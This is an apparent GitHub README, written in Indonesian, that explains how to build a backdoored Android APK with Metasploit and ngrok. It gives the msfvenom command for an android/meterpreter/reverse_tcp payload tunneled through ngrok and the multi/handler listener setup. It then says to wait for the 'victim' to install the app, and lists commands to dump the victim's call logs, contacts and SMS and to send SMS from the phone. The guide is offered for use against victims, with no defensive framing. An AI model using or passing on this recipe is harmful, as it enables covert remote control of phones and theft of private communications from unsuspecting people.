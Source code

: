# Backdoor-APK
Cara Membuat Backdoor Untuk Android Dengan Metaspolit Dan Ngrok

**1. Install Metasploit**

**2. Install Ngrok**

**3. Buat Akun Ngrok**

**4. Masukkan Token Ngrok**
'<br> $./ngrok authtoken 'Masukkan Token';'

**5. Buat Port Ngrok**
<br> $./ngrok http 4455

**6. Melihat Status Ngrok**
<br> $ngrok tcp 4455 (port sesuai yang kita buat di awal)

**7. Jalankan Metasploit**
<br> $msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=11610 R > /home/x-ploit001/Backdoor.apk
<br> Ket. Untuk LHOST dan LPORT diambil dari forwarding status ngrok

**8. Menjalankan Msfconsole**
<br> $msfconsole

**9. EKSEKUSI**
<br> msf > use multi/handler
<br> msf exploit(muti/handler) > set payload android/meterpreter/reverse_tcp
<br> msf exploit(muti/handler) > set lhost 0.0.0.0
<br> msf exploit(muti/handler) > set lport 4455
<br> msf exploit(muti/handler) > exploit

**10. Menunggu Korban Install APK**
**11. Perintah Remoting**
<br> dump_callog (Mendapatkan log panggilan di hp korban)
<br> dump_contacs (Mendapatkan kontak di hp korban)
<br> dump_sms (Mendapatkan sms masuk dan keluar di hp korban)
<br> send_sms (Mengirim sms menggunakan hp korban)
